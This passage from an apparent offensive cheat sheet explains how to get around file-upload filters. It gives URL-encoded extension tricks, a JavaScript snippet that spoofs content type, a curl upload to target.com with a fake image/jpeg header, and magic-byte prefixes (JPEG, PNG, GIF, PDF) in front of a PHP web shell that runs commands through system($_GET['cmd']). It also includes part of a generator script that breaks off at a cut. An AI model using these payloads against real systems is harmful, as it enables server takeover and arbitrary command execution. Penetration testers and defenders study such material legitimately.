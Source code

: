 #### URL Encoding
```
shell.php%2Ejpg
shell.%70hp
shell.ph%70
```

### 1.2 Content-Type Bypass

#### Common Content-Type Spoofing
```html
<script>
// JavaScript content-type override
var file = new File(["<?php system($_GET['cmd']); ?>"], "shell.jpg", {
  type: "image/jpeg"
});

// FormData manipulation
var formData = new FormData();
formData.append('file', file);
</script>
```

#### cURL Content-Type Spoofing
```bash
curl -X POST \
  -F "file=@shell.php" \
  -H "Content-Type: image/jpeg" \
  http://target.com/upload.php
```

### 1.3 Magic Bytes Bypass

#### Common Magic Headers
```php
// JPEG
\xFF\xD8\xFF\xE0 <?php system($_GET['cmd']); ?>

// PNG
\x89PNG\x0D\x0A\x1A\x0A <?php system($_GET['cmd']); ?>

// GIF87a
GIF87a <?php system($_GET['cmd']); ?>

// GIF89a  
GIF89a <?php system($_GET['cmd']); ?>

// PDF
%PDF-1.4 <?php system($_GET['cmd']); ?>
```

#### Magic Bytes Generator Script
```php
<?php
// magic_shell.php
$magic_headers = [
    'jpg' => "\xFF\xD8\xFF\xE0",
    'png' => "\x89PNG\x0D\x0A\x1A\x0A", 
    'gif' => "GIF89a",
    'pdf' => "%PDF-1.4"
];

$php_shell = '<?php system($_GET["cmd"]); ?>';

foreach($magic_headers as $ext => $header) {
```